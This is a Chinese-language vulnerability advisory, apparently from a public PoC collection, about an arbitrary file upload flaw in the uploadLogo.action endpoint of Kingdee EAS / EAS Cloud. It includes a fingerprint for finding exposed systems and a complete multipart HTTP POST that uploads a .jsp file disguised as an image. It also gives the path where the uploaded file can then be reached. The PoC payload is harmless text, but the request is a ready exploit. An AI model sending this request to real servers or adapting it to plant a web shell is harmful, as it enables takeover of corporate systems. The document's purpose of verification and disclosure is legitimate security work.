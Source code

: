 # 金蝶OA EAS系统 uploadLogo.action 任意文件上传漏洞

## 漏洞描述

金蝶 EAS 及 EAS Cloud 是金蝶软件公司推出的一套企业级应用软件套件，旨在帮助企业实现全面的管理和业务流程优化。金蝶 EAS 及 EAS Cloud&nbsp; 在 uploadLogo.action 存在文件上传漏洞，攻击者可以利用文件上传漏洞执行恶意代码、写入后门、读取敏感文件，从而可能导致服务器受到攻击并被控制。

## 漏洞影响

<a-checkbox checked>金蝶OA EAS系统 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"/easportal/" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697158962220-979a854c-fe16-4239-82f2-c1dbdbba2072.png)

验证POC

```plain
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycxkT8bV6WLIUzm2p

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="chooseLanguage_top"
ch

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="dataCenter"

xx
------WebKitFormBoundarycxkT8bV6WLIUzm2p 
Content-Disposition: form-data; name="insId"

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="type"

top
------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="upload"; filename="text.jsp"
Content-Type: image/jpeg

Test
------WebKitFormBoundarycxkT8bV6WLIUzm2p--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697637525503-021b943d-4f9e-401a-afce-c2f4a8e7a109.png)

```plain
/portal/res/file/upload/xxx.jsp
```